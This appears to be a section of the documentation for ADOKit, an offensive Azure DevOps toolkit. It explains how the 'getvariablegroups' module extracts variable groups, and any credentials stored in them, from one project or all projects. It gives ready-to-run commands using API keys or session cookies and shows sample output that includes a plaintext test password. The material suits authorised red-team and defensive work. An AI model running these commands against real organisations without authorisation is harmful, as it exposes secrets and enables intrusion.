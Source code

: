 ### Get Variable Groups

#### Use Case

> *Extract any variable group and the corresponding variables being used in project(s), which could contain credentials or other useful information.*

#### Syntax

Provide the `getvariablegroups` module along with a `/project:` for a given project to extract any variable groups being used. If you would like to extract variables groups from all projects specify `all` in the `/project:` argument.

`ADOKit.exe getvariablegroups /credential:apiKey /url:https://dev.azure.com/organizationName /project:"someProject"`

`ADOKit.exe getvariablegroups /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/organizationName /project:"someProject"`

`ADOKit.exe getvariablegroups /credential:apiKey /url:https://dev.azure.com/organizationName /project:"all"`

`ADOKit.exe getvariablegroups /credential:"UserAuthentication=ABC123" /url:https://dev.azure.com/organizationName /project:"all"`

#### Example Output

```
C:\>ADOKit.exe getvariablegroups /credential:"ABC123" /url:https://dev.azure.com/YourOrganization /project:"ADOKit"

==================================================
Module:         getvariablegroups
Auth Type:      Cookie
Project:        ADOKit
Target URL:     https://dev.azure.com/YourOrganization

Timestamp:      16/05/2024 16:53:31
==================================================


[*] INFO: Checking credentials provided

[+] SUCCESS: Credentials provided are VALID.

           Variable Group Name |                  Variable Name |                                     Variable Value
--------------------------------------------------------------------------------------------------------------------
           real-test-variables |                  test_password |                                      BurpIsNotBeef
           real-test-variables |                      test_user |                                            nicolas
           fake-prod-variables |                    SUPERSECRET |                                           [HIDDEN]
           fake-prod-variables |                 SUPERNOTSECRET |                             ThisShouldBeSecured :/

```
